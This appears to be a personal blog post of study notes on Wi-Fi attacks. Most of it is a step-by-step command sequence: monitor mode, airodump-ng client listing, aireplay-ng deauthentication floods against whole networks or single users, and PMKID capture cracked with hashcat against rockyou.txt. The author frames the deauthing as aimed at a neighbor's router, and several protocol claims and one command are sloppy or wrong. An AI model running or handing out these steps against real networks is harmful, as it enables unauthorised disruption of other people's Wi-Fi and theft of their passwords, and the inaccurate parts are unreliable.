 ```yaml
---
layout : post
title : Sniffing packets and testing those
date : 21-06-21
---
```


Wireless Network Adapter aka wifi card that is used to connect to wifi's 

WEP : oldest
WPA : Any certificate can lead to leak 
WPA2 : kick a user, then he reconnects, capture the certificate, 4-way handshake ,capture the certificate in betweeen   
WPA3 : all password attempts need to be on internet 



## Monitor mode
In this mode it becomes a radio sniffer, listens to all wireless signals in the air on a specific channel. Hear's everything happening in the room 

Wifi card can listen to 2.4Ghz, 5Ghz, 6Ghz bands 

It can sniff to any frequency band that its capable of in the above range

So what you do is you deauth the neighbor's router by sending 'deauthentication packets' ? ( how can I send deauth packets ? )
deauth is broken, part of 802.11 management frames, are not protected in WPA/WPA2 - Personal , can be spoofed / faked by anyone in the range 

Particular client deauth attack 

```
BSSID              STATION            PWR   Rate    Lost    Frames  Probes
AA:BB:CC:DD:EE:FF  11:22:33:44:55:66  -45   1e-1     0       800     -
```

Station MAC is the client MAC 

Get all clients :
`airodump-ng --bssid <router MAC> -c <channel> wlan0mon`

Deauth bombing: 
`aireplay-ng --deauth 100 -a <router MAC> wlan0mon`

Deauth particular user : 
`aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon`



#  scan the wifi : 
sudo iwlist scan 

# top networks
sudo airdump-ng start wlo1mon , or , 
sudo airodump-ng wlo1mon --write scan --output-format csv

# get all wifi present and bssid
sudo iw dev wlo1 scan 

## Get into monitor mode 
sudo airmon-ng start wlo1

## manager mode
sudo airmon-ng stop wlo1mon


## airodump : 
sudo airodump-ng --bssid <bssid> -c <channel-name> -w capture wlo1mon

eg:
sudo airodump-ng --bssid 6c:4f:89:9a:3f:af -c 44 -w capture wlo1mon

## aireplay 

sudo aireplay-ng --deauth 20 -a 6c:4f:89:9a:3f:af wlo1mon --ignore-negative-one


# HASHCAT 
Pairwise Master Key Identifier (PMKID) 

##-- PMKID --##

#hcxdump-tool
sudo hcxdumptool -i wlo1mon -w pmkid.pcapng --rds=1

#tool to unpack
hcxpcapngtool -o pmkid.hccapx pmkid.pcapng

#
hcxpcapngtool -o pmkid.hc22000 pmkid.pcapng


#
hashcat -m 22000 pmkid.hc22000 rockyou.txt --force


![hacked](https://github.com/user-attachments/assets/8ab726b5-c6b8-43e9-b184-a7207d1f3163)






